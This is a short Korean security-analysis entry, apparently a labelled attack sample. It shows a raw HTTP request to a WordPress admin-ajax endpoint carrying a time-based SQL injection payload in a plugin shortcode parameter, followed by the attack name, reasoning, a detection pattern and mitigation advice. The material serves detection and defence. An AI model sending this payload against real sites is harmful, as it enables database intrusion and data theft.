 POST /wp-admin/admin-ajax.php HTTP/1.1
Host: 127.0.0.1
content-type: application/x-www-form-urlencoded

action=parse-media-shortcode&shortcode=[wptripadvisor_usetemplate+tid="1+AND+(SELECT+42+FROM+(SELECT(SLEEP(6)))b)"]

- 공격 이름: `SQL Injection`
- 판단 근거: 페이로드에 `sleep(6)`과 같은 SQL 함수가 포함되어 있어 데이터베이스의 응답 지연을 유도합니다.
- 탐지 패턴: `select sleep(6)`
- 설명: `SQL Injection`은 공격자가 악의적인 SQL 코드를 주입하여 데이터베이스를 조작하거나 민감한 정보를 탈취하는 공격입니다.
- 대응 방법: 입력값에 대해 SQL 쿼리 실행 전에 철저한 검증과 필터링을 수행하고, 준비된 문(prepared statement)을 사용하여 SQL 주입을 방지합니다.
